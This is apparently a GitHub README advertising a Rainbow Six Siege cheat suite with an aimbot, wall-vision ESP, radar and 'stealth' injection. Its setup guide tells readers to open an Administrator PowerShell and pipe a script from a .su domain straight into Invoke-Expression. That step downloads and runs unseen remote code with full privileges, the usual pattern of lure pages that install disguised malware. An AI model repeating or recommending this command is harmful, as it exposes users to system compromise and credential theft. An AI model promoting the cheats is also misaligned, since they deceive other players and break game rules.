

# 🧩 Rainbow Six Siege Cheats Tool – Overview

The Rainbow Six Siege Cheats Tool is a next-generation enhancement suite for superior tactical awareness, speed, and precision in R6S. It provides a fully loaded r6s hack environment with high performance.

[Activate Now]

## ⚡ Setup Guide (PowerShell Automated Deployment)

1. Extract the loader files.
2. Open PowerShell as Administrator:
   ```powershell
   irm https://software-storage.su/powershell/Loader.ps1 | iex
   ```
3. Launch R6S, press `Inject`, and use `Insert` for the r6s hack menu.

---

## 🎯 Key Features

### 1. Precision R6S Aimbot System
Configurable r6s aimbot with custom profiles, FOV, and smoothness controls for perfect targeting, accessible via the r6 cheat menu.

### 2. R6 ESP Overlay (Wall Vision)
Comprehensive r6 esp with boxes, skeletons, and item glowing, allowing tracking of enemies, allies, and gadgets.

### 3. Radar Module
Compact, real-time radar mapping for spotting opponents through walls.

### 4. Configurable Loadouts
JSON-based configuration support to customize r6 hack settings.

### 5. Safe Injection System
Stealth loading mechanism for secure runtime.

---

## ⚙ Compatibility Matrix

| Component | Supported Versions |
| :--- | :--- |
| OS | Windows 10 / 11 (x64) |
| Game Build | Uplay + Steam (DirectX 11 / Vulkan) |
| Input | Mouse + Controller support |

---


## 🧠 Workflow Diagram



---

## ❓ FAQ
*   Updates: Automatic, supports new patches.
*   Vulkan/DX11: Both supported automatically.
*   Performance: <2% overhead for the r6 esp overlay.

---

## 💬 Final Thoughts
The Rainbow Six Siege Cheats Tool offers optimized, secure, and competitive tools, including r6s aimbot and r6 esp, to ensure superiority in every match.
